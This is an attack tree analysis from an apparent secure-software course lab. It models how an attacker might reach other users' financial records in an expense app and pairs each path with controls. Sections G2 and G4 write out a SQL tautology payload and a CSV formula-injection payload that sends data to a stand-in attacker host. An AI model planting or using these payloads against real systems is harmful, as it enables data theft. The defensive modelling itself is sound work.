

# Phase 8, Part A: Attack Tree Analysis

**Project Title:** Secure Personal Expense Management Application (SPEMA)  
**Document ID:** SPEMA-SEC-AT01  
**Course Code:** 24CYS401 – Secure Software Engineering Laboratory  
**Document Path:** `docs/security/attack-tree.md`  
**Classification:** Laboratory Examination Artifact – High Integrity  
**Status:** Approved Baseline  

---

## 1. Executive Summary & Root Attacker Goal

Phase 8 evaluates the resilience of the Secure Personal Expense Management Application by modeling the adversary's perspective through formal **Attack Tree Analysis**.

### The Primary Attacker Goal
> **ROOT GOAL [G0]: Access another user's financial records**

This goal directly targets the core confidentiality and tenancy boundary of the system. An adversary who achieves this goal violates the primary security mandate of the laboratory examination.

---

## 2. Comprehensive Hierarchical Attack Tree

The attack tree decomposes the root goal into five operational sub-goals using standard **AND/OR logic gates**.

---

## 3. Systematic Node & Path Breakdown

### Branch G1: Direct Object-Level Authorization Bypass (BOLA / IDOR)

#### Path 1.1: Predict or Probe Transaction ID and Direct Retrieval
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker registers an account and obtains a valid JWT token.
  2. Attacker probes transaction IDs (`GET /api/v1/transactions/101`, `102`, `103`).
  3. Server fetches transaction by primary key without verifying caller tenancy.
- **Prerequisites:**
  - Attacker holds an active account session.
  - Backend controller executes `SELECT * FROM transactions WHERE id = :id` without tenant scoping.
- **Feasibility:** High in naive applications; **Zero in SPEMA**.
- **Preventive Controls:**
  - Server-side dependency injection extracts identity strictly from verified token (`Depends(get_current_active_user)`).
  - Database repository executes compound query: `WHERE id = :id AND user_id = :current_user.id`.
  - Anti-enumeration uniform `HTTP 404 Not Found` response emitted on non-matching records (`SEC-006`).
- **Detective Controls:**
  - AuditLogger records `AUTHZ_DENIED` with caller ID, target ID, and client IP (`SEC-015`).

#### Path 1.2: Client-Supplied Tenant Parameter Spoofing (Parameter Tampering)
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker appends `?user_id=2` or submits JSON body `{"user_id": 2}`.
  2. Server uses client-supplied parameter to scope data retrieval.
- **Prerequisites:** Backend framework binds tenant identity to untrusted client inputs.
- **Feasibility:** High if unvalidated; **Zero in SPEMA**.
- **Preventive Controls:**
  - Pydantic DTO models configure `extra = "forbid"` and define **no `user_id` field** (`SEC-008`).
  - Query builder permanently ignores any client-passed tenant parameter (`SEC-007`).
- **Detective Controls:**
  - Pydantic schema validation error logged upon detection of forbidden fields.

---

### Branch G2: SQL Injection in Search and Filtering

#### Path 2.1: Tautology Injection in Search Keywords
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker submits search payload: `' OR '1'='1`.
  2. Dynamic query concatenation executes:  
     `SELECT * FROM transactions WHERE user_id = 42 AND description LIKE '%' OR '1'='1%'`.
  3. Query returns all records across all users in the database.
- **Prerequisites:** Repository builds SQL queries via raw string formatting or f-strings.
- **Feasibility:** High if string concatenation exists; **Zero in SPEMA**.
- **Preventive Controls:**
  - Parameterized SQLAlchemy 2.0 ORM expressions exclusively (`SEC-009`).
  - Whitelist regex validation on keyword parameters (`SEC-008`).
- **Detective Controls:**
  - SQLAlchemy query exception monitoring; WAF SQL injection signature detection.

---

### Branch G3: Authentication & Session Compromise

#### Path 3.1: Account Takeover via Credential Spraying / Brute Force
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker discovers victim's username or email address.
  2. Attacker scripts high-velocity password guessing against `/api/v1/auth/login`.
  3. Server accepts weak credentials; attacker receives valid JWT session for victim.
- **Prerequisites:** Weak victim password; absent or bypassable rate limiting.
- **Feasibility:** Medium without defenses; **Extremely Low in SPEMA**.
- **Preventive Controls:**
  - IP and username rate limiting: at most 5 attempts per 15 minutes (`SEC-003`).
  - High-work-factor **Argon2id** password hashing (`SEC-001`).
  - 10+ character password policy with complexity checklist (`SEC-002`).
- **Detective Controls:**
  - Security alert triggered upon 5 consecutive failed login attempts from a single IP.

#### Path 3.2: Session Token Forgery via Secret Key Compromise
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker recovers server HMAC-SHA256 secret key via git history leak or dictionary attack.
  2. Attacker crafts token with header `{"alg": "HS256"}` and payload `{"sub": victim_id}`.
  3. Attacker signs token using recovered key and accesses victim's records.
- **Prerequisites:** Weak or leaked JWT secret key; secret committed to source control.
- **Feasibility:** Critical if key is weak; **Zero in SPEMA**.
- **Preventive Controls:**
  - Minimum 256-bit cryptographically secure random secret key (`SEC-004`).
  - Secret loaded exclusively from runtime environment variables (`SEC-014`).
  - Automated secret scanning (TruffleHog / GitGuardian) in CI/CD pipeline.
- **Detective Controls:**
  - Token signature exception logging on malformed signature verification.

---

### Branch G4: Cross-Tenant Report Manipulation & Exfiltration

#### Path 4.1: Unscoped Report Generation Query
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker requests `/api/v1/reports/export-csv`.
  2. Reporting service omits tenant scoping or permits passing arbitrary date/user filters.
  3. Server exports bulk financial statements encompassing all tenants.
- **Prerequisites:** Reporting endpoint lacks tenancy filter.
- **Feasibility:** High if overlooked; **Zero in SPEMA**.
- **Preventive Controls:**
  - Export query hardcodes compound filter: `WHERE user_id = :current_user.id` (`SEC-012`).
  - Response streamed dynamically without persistent intermediate disk storage.
- **Detective Controls:**
  - AuditLogger emits `REPORT_EXPORTED` with record count, parameters, and user ID.

#### Path 4.2: Data Exfiltration via CSV Formula Injection (CWE-1236)
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker creates an expense with description `=HYPERLINK("http://attacker.com/leak?data="&A1, "Click")`.
  2. Victim or auditor downloads financial report and opens it in Microsoft Excel.
  3. Victim clicks link or spreadsheet auto-evaluates, exfiltrating financial data.
- **Prerequisites:** Unsanitized CSV output; victim opens CSV in desktop spreadsheet app.
- **Feasibility:** Medium; **Zero in SPEMA**.
- **Preventive Controls:**
  - `SecureCSVExporter` prepends an apostrophe (`'`) to any cell starting with `=`, `+`, `-`, `@`, `\t`, `\r` (`SEC-011`).
  - Encloses all cells in RFC 4180 quotes.
- **Detective Controls:**
  - Unit test verification asserting formula trigger neutralization.

---

### Branch G5: Log Harvesting & Information Disclosure

#### Path 5.1: Recovering Tokens or Passwords from Application Logs
- **Type:** **AND-Branch**
- **Action Sequence:**
  1. Attacker gains read access to container stdout, server log files, or log aggregator.
  2. Attacker greps for authorization tokens or plaintext passwords logged during requests.
  3. Attacker replays stolen bearer tokens to access victim accounts.
- **Prerequisites:** Logging subsystem records raw request payloads and headers.
- **Feasibility:** High in debug mode; **Zero in SPEMA**.
- **Preventive Controls:**
  - Centralized log sanitization filter masks all sensitive fields (`password`, `token`, `secret`) (`SEC-016`).
  - Raw request bodies are never logged on authentication endpoints.
- **Detective Controls:**
  - Automated CI log scan asserting zero token strings in test logs.

---

## 4. Critical Path Evaluation & Risk Ranking

| Attack Path | Vector | Likelihood | Impact | Exploitability | Overall Risk |
| :---: | :--- | :---: | :---: | :---: | :---: |
| **Path 1.1** | IDOR / BOLA via Transaction ID Probing | **High** | **Critical** | Easy | **CRITICAL (Primary Attack Vector)** |
| **Path 2.1** | SQL Injection via Search Keyword | **Medium** | **Critical** | Easy | **CRITICAL (Mass Breach Vector)** |
| **Path 1.2** | Client-Supplied Tenant Parameter Spoofing | **High** | **Critical** | Easy | **HIGH** |
| **Path 3.1** | Credential Spraying / Brute Force on Login | **High** | **High** | Medium | **HIGH** |
| **Path 4.2** | CSV Formula Injection (CWE-1236) | **Medium** | **High** | Medium | **HIGH** |
| **Path 3.2** | JWT Secret Key Forgery | **Low** | **Critical** | Hard | **HIGH** |
| **Path 5.1** | Sensitive Token Disclosure in Logs | **Medium** | **High** | Medium | **MEDIUM** |
| **Path 4.1** | Unscoped Bulk Report Export | **Low** | **High** | Easy | **MEDIUM** |

---

## 5. Security Conclusions for Architecture Refinement

The attack tree demonstrates that **Path 1.1 (BOLA/IDOR)** and **Path 2.1 (SQL Injection)** represent the highest-risk avenues to compromise the primary security mandate. 

Accordingly, Phase 8 mandates concrete architectural refinements to guarantee that:
1. Repository queries cannot execute without an obligatory, server-derived tenant parameter.
2. The database query engine uses compound index scans enforcing tenant boundaries at the storage layer.
3. Anti-enumeration uniform 404 responses prevent attackers from discovering valid foreign IDs.
4. Pydantic request models strictly forbid extraneous client tenant parameters.
